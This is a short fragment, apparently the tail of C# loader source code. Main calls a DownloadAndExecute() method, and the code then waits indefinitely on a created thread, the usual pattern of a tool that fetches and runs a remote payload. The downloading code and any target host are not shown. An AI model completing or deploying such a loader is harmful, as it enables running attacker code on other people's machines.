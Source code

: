 ```c#
            WaitForSingleObject(hThread, 0xFFFFFFFF);
            return;
        }

        public static void Main(String[] args)
        {
            DownloadAndExecute();
        }
    }
}

```
